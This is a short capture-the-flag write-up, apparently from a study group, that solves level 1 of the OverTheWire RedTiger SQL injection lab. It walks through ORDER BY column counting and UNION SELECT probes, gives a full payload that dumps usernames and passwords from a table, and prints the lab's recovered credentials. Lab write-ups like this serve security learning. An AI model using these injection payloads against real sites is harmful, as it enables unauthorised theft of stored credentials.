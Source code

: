 # 2.1 Red Tiger Labs

Date: Jun 12, 2020
Progress: approved
Tags: Post Meeting, Practical, RedTiger, Sql Injection, Week 2

## Level 1: Simple Sql-Injection

1. Assume the hypothesis for sql query to be: 

```sql
select * from ? where id=$cat
```

  2. Thus we can perform sql injection without any quoted strings and brackets like

```sql
https://redtiger.labs.overthewire.org/level1.php?cat=1+ORDER+BY+1--
```

  3. Find the number of columns returned by database using ordered by

```sql
https://redtiger.labs.overthewire.org/level1.php?cat=1+ORDER+BY+1--
https://redtiger.labs.overthewire.org/level1.php?cat=1+ORDER+BY+2--
https://redtiger.labs.overthewire.org/level1.php?cat=1+ORDER+BY+3--
https://redtiger.labs.overthewire.org/level1.php?cat=1+ORDER+BY+4--
```

4. In doing so when the number reaches 5, error is returned, thus we can conclude that there are four columns returned.

5. Determining the type of the value returned

```sql
https://redtiger.labs.overthewire.org/level1.php?cat=1+UNION+SELECT+1,NULL,NULL,NULL--
https://redtiger.labs.overthewire.org/level1.php?cat=1+UNION+SELECT+NULL,1,NULL,NULL--
https://redtiger.labs.overthewire.org/level1.php?cat=1+UNION+SELECT+NULL,NULL,1,NULL--
https://redtiger.labs.overthewire.org/level1.php?cat=1+UNION+SELECT+NULL,NULL,NULL,1--
```

6. We come to conclusion that all the column returned is of type int, however last two column is printed on the screen. So we use the last two column to print the username and password as:

```sql
https://redtiger.labs.overthewire.org/level1.php?cat=1+UNION+SELECT+NULL,NULL,username,password+FROM+level1_users--
```

7. Thus the password for the Hornoxe is

```sql
username = Hornoxe
password = thatwaseasy
```

8. On entering the username and password, we arrive at password for next level.
